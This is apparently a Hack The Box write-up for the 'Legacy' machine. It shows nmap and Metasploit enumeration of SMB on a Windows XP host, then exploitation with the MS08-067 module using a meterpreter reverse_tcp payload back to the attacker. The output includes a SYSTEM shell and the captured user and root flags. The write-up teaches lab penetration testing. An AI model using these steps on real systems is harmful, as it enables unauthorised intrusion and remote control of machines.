



# Legacy

## 1. Overview

### 1.1. Attacks

* SMB

### 1.2. Tools used

**Enumeration** &rarr; `nmap`.

**Exploitation** &rarr; `msf`.

## 2. Walkthrough

### 2.1. Enumeration

#### 2.1.1. nmap
Search with `nmap`:

```bash
nmap -p -T4 -A 10.10.10.4
```

##### 2.1.1.1. Ports


* **Port: 139 (netbios-ssn)** &rarr; Linux Samba
* **Port: 445 (microsoft-ds)** &rarr; Windows SMB

Both are SMB related (file shares).

##### 2.1.1.2. Host Details




* **OS** &rarr; Windows XP
* **Computer name** &rarr; LEGACY
* **SMB-Security-Mode**
    * **Message_Signing** &rarr; disabled


#### 2.1.2. Metasploit

```msf
msf5 > use auxiliary/scanner/smb/smb_version
msf5 auxiliary(scanner/smb/smb_version) > set rhosts 10.10.10.4
rhosts => 10.10.10.4
msf5 auxiliary(scanner/smb/smb_version) > run

[+] 10.10.10.4:445        - Host is running Windows XP SP3 (language:English) (name:LEGACY) (workgroup:HTB ) (signatures:optional)
[*] 10.10.10.4:445        - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

* **OS** &rarr; Windows XP SP3

### 2.2. Exploitation

#### 2.2.1. Sources

**Google:** `smb windows xp sp3 exploit`

[[Rapid7] MS08-067 Microsoft Server Service Relative Path Stack Corruption ](https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi)

#### 2.2.2. Metasploit

```msf
msf5 > use exploit/windows/smb/ms08_067_netapi
[*] Using configured payload windows/meterpreter/reverse_tcp
msf5 exploit(windows/smb/ms08_067_netapi) > set rhosts 10.10.10.4
rhosts => 10.10.10.4
msf5 exploit(windows/smb/ms08_067_netapi) > set LHOST 10.10.14.7
LHOST => 10.10.14.7
msf5 exploit(windows/smb/ms08_067_netapi) > run
```

```sh
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > shell

C:\WINDOWS\system32>cd "c:\documents and settings\john\desktop"
cd "c:\documents and settings\john\desktop"

C:\Documents and Settings\john\Desktop>type user.txt
type user.txt
e69af0e4f443de7e36876fda4ec7644f
C:\Documents and Settings\john\Desktop>cd "c:\documents and settings\administrator\desktop"

C:\Documents and Settings\Administrator\Desktop>type root.txt
type root.txt
993442d258b0e0ec917cae9e695d5713
```

* **Own User** &rarr; `e69af0e4f443de7e36876fda4ec7644f`
* **Own Root** &rarr; `993442d258b0e0ec917cae9e695d5713`